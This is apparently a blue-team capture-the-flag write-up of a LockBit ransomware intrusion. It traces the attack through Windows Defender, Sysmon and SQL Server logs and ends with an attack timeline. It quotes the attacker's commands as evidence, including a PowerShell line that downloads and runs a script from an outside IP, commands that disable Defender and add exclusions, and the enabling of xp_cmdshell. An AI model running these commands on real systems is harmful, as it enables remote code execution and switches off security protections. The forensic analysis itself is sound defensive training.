---


[https://cyberdefenders.org/blueteam-ctf-challenges/lockbit/](https://cyberdefenders.org/blueteam-ctf-challenges/lockbit/)





## DC01 {#3487b0eb61a4804db8eedf775dae6964}


### Q1 Windows Defender flagged a suspicious executable. Can you identify the name of this executable? {#3487b0eb61a480f5a4dfc527d22153b1}





:::tip

EventID 1116 MALWAREPROTECTION_STATE_MALWARE_DETECTED
Event ID 1117 indicates that Microsoft Defender Antivirus has successfully performed a remediation action—such as quarantine, delete, or clean—on a detected threat (in EventID 1116)

:::


From the provided alert, we can extract some important artifacts:


`12/14/2023 3:08:03 PM`


`Path: file: \\DC01\ADMIN$\8fe9c39.exe` 


`Process Name: C:\Windows\Sysmon64.exe`


`Computer: DC01.NEXTECH.local`


`Name: Backdoor:Win64/CobaltStrike.NP!dha`


The attacker utilized an SMB network share to copy the malicious Cobalt Strike payload to DC01. Windows Defender detected this file when the `Sysmon64.exe` process attempted to access/read it


> 8fe9c39.exe


### Q2 What's the path that was added to the exclusions of Windows Defender? {#3487b0eb61a48016b50ddb47c0b27dd9}


I used Event ID 5007 which tracks Microsoft Defender Antivirus (Malware Protection Config Changed)


`Microsoft Defender Antivirus Configuration has changed.
Old value:
New value: HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths\C:\ = 0x0`


> C:\


### Q3 What’s the IP of the machine that initiated the remote installation of the malicious service? {#3487b0eb61a48078a35ff9ed1be0f09d}


By using sysmon event ID 3 to check the victim connection:


Information	12/14/2023 3:07:03 PM	Microsoft-Windows-Sysmon	3	(3)





source:  192.168.170.142 (remote machine)


des: 192.168.170.124 (DC01)


Hacker employed WinRM to remotely install the malicious service on DC01


To make sure the IP `192.168.170.124`  is DC01, i used registry explorer and navigated to:


`SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces`





> 192.168.170.142


## SQLServer {#3487b0eb61a4800ba111e36a43df5312}


### Q4 What’s the name of the process that had suspicious behavior as detected by Windows Defender? {#3487b0eb61a4805a8bbcd9e9590328c8}


I checked the Windows Defender logs on SQL server:  `\Windows\System32\winevt\Logs\Microsoft-Windows-Windows Defender%4Operational.evtx`   and look for eventID 1116 


```powershell
`Path behavior:_process: C:\Windows\System32\cmd.exe,`  
`Warning	12/14/2023 2:45:23 PM	Windows Defender	1116	None`
```


I also took a look at sysmon event ID 1:


 `CommandLine "C:\Windows\system32\cmd.exe" /c powershell "IEX (New-Object Net.WebClient).DownloadString('http://5.188.91.243/fJSYAso.ps1')"` 


`ParentImage C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Binn\sqlservr.exe
ParentCommandLine "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Binn\sqlservr.exe" -sMSSQLSERVER`


So obviously the answer is:


> cmd.exe


### Q5 What’s the parent process name of the detected suspicious process? {#3487b0eb61a480178de1f50e61e5d31d}


As we have analyzed in Q4:


> sqlservr.exe


### Q6 Initial access often involves compromised credentials. What is the SQL Server account username that was compromised? {#3487b0eb61a4800fa476efc7012a83a2}


I checked for the Security logs:





There is nothing in there:


Looked into the Log off MSSQL





And in errorlog: we can see clear signs of a brute force attack targeting for the sa - system administrator account on SQL server.





Then, attacker succeeded:


2023-12-14 06:43:37.42 Logon       Login succeeded for user '`sa`'. Connection made using SQL Server authentication. [CLIENT: 5.188.91.243]
2023-12-14 06:43:52.13 spid51      Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
2023-12-14 06:44:08.85 spid51 turn `xp_cmdshell` on


`xp_cmdshell` is a powerful **SQL Server** stored procedure that spawns a Windows command shell, executing command-line strings and returning output as text rows. It is disabled by default due to high security risks but can be enabled via sp_configure. It runs under the **SQL Server Service account's security context**. In SQL server attacks, hackers often try to turn this feature on to perform malicious actions.


> `sa`


### Q7 Following the compromise, a critical server configuration was modified. What feature was enabled by the attacker? {#3487b0eb61a4809bb1f1f5a7dcc52e83}


`xp_cmdshell`


### Q8 What’s the command executed by the attacker to disable Windows Defender on the server? {#3487b0eb61a4807ebe3dc8e60acb088a}


Using Event ID 1: The hacker executed commands to perform system discovery and disable Windows Defender."


 2023-12-14 14:44:51.012 


	`CommandLine "C:\Windows\system32\cmd.exe" /c powershell "Get-Service"` 


	Discovery


 2023-12-14 14:45:13.177 


	`Set-MpPreference -DisableRealtimeMonitoring 1`


> Set-MpPreference -DisableRealtimeMonitoring 1


### Q9 What's the name of the malicious script that the attacker executed upon disabling AV? {#3487b0eb61a48044aac6df7257d657a6}


While skimming through **Event ID 1** on **the** SQL server, **I** also found this command:"


12/14/2023 2:45:23 PM
 `CommandLine "C:\Windows\system32\cmd.exe" /c powershell "IEX (New-Object Net.WebClient).DownloadString('http://5.188.91.243/fJSYAso.ps1')"` 


> fJSYAso.ps1


### Q10 What's the PID of the injected process by the attacker? {#3487b0eb61a480299dbfd81eb2954cc0}


Event ID 8 most commonly refers to Sysmon Event ID 8 (CreateRemoteThread), a security monitoring event that detects when a process creates a thread in another process, frequently used to identify code injection, malware, or credential dumping


So i filtered for event ID 8 and found the following:





In this image, powershell created a remote thread in winlogon.exe by using the CreateRemoteThread form Windows API - It’s a clear sign of process injection  and privilege escalation. Because winlogon.exe has the NT AUTHORITY\SYSTEM privilege.


StartAddress: `0x000001BF27290000`. When an authentic thread **executes** code, the StartAddress should point to the name of a legitimate .dll file (For example: kernel32.dll, ntdll.dll), not an unbacked memory address.


So the injected process is winlogon.exe (responsible for managing user logon/logoff, security, and the "secure attention sequence" (Ctrl+Alt+Delete)) and the process id is:


> `596`


### Q11 Attackers often maintain access by the creation of scheduled tasks. What’s the name of the scheduled task created by the attacker? {#3487b0eb61a480ef8d4ddcc51927c03f}


I looked for event ID 4698 (a new scheduled task was created on the system)





> 


	`UpdateCheck`


### Q12 What’s the PID of the malicious process that dumped credentials? {#3487b0eb61a480368f62fc8235a781b9}


By using the event ID 10 (sysmon): 





2023-12-14 15:00:42.228


	Granted access: 0x1010 is the combination of two access privileges:

	- `0x0010`: **PROCESS_VM_READ**
	- `0x1000`: **PROCESS_QUERY_LIMITED_INFORMATION**
- The TargetImage: lsass.exe  → an obvious sign of credential dumping

> 5456


### Q13 What's the command used by the attacker to disable Windows Defender remotely on FileServer? {#3487b0eb61a480df957aecf33f5a2a5d}


Revisit eventID 1: 


2023-12-14 15:07:01.489


	```c++
	Invoke-Command -ComputerName DC01 -ScriptBlock { Add-MpPreference -ExclusionPath "C:\" }
	Invoke-Command -ComputerName DC01 -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f }
	Invoke-Command -ComputerName FileServer -ScriptBlock { Add-MpPreference -ExclusionPath "C:\" }
	Invoke-Command -ComputerName FileServer -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f }
	```


 2023-12-14 15:14:04.131 


	```c++
	powershell -nop -exec bypass -EncodedCommand Invoke-Command -ComputerName DevPC -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f } 
	```


> `Invoke-Command -ComputerName FileServer -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f }`


## FileServer {#3487b0eb61a480cfade5e3ec382ea703}


### Q14 What's the name of the malicious service executable blocked by Windows Defender? {#3487b0eb61a480af9f83c8b51c48d71c}


Again, using the eventID 1116 in Windows Defender log:


12/14/2023 3:02:48 PM





> ceabe99.exe


## DevPC {#3487b0eb61a480d6a21ad9b716b5d491}


### Q15 What’s the name of the ransomware executable dropped on the machine? {#3487b0eb61a4807fae74fdc2aa29aec3}


By using the Event ID 11 (create files): there are a lot of file created bt vmware.exe in a short period of time”


> vmware.exe


### Q16 What’s the full path of the first file dropped by the ransomware? {#3487b0eb61a4807ebeeed4766c9672a6}





Again in event ID 11: 


> C:\Users\dmiller\Downloads\HHuYRxB06.README.txt


## The attack chain {#3487b0eb61a4807c9248e07c9869381f}

- 2023-12-14 06:42 (Initial Access): Recorded a brute-force attack targeting the SQL server's `sa` (system administrator) account.
- 2023-12-14 06:43:37 (Execution): The threat actor successfully logged in and enabled the `xp_cmdshell` configuration.
- 2023-12-14 14:44:51 (Discovery): Executed `cmd.exe /c powershell "Get-Service"` to enumerate system services.
- 2023-12-14 14:45:13 (Defense Evasion): Disabled Windows Defender real-time monitoring using `Set-MpPreference -DisableRealtimeMonitoring 1`.
- 2023-12-14 14:45:23 (Execution): The threat actor utilized their elevated privileges to execute a PowerShell command, downloading a malicious script from `http://5.188.91.243/fJSYAso.ps1`.
- 2023-12-14 14:53:13 (Persistence): Created a scheduled task named `UpdateCheck`.
- 2023-12-14 15:00:42 (Credential Access): Performed credential dumping by accessing the memory of `lsass.exe`.
- 2023-12-14 15:02:48 (Persistence): Executed the Cobalt Strike backdoor (`ceabe99.exe`) on the FileServer.
- 2023-12-14 15:08:03 (Lateral Movement): The threat actor copied the file `\\DC01\ADMIN$\8fe9c39.exe` from the SQL server to DC01.
- 2023-12-14 15:04:24 (Defense Evasion): Used WinRM (Port 5985) to remotely disable Windows Defender and create exclusion paths on the workstations and DC01. _(Note: I corrected the port from your draft's 5589 to the standard WinRM HTTP port 5985)._
- 2023-12-14 15:14:04 (Defense Evasion): Disabled Windows Defender on DevPC via a remotely executed PowerShell script.
- 2023-12-14 15:16:55 (Lateral Movement): The hacker copied the file `20df43c.exe` to DevPC and executed it by calling `rundll32.exe`.
- 2023-12-14 15:21:55 (Execution): The `rundll32.exe` process subsequently dropped the file `vmware.exe`.
- 2023-12-14 15:22:57 (Impact / Ransomware): The executable `C:\windows\temp\vmware.exe` on DevPC proceeded to encrypt files en masse. Simultaneously, it generated the ransom note at `C:\Users\dmiller\Downloads\HHuYRxB06.README.txt` to notify the user.
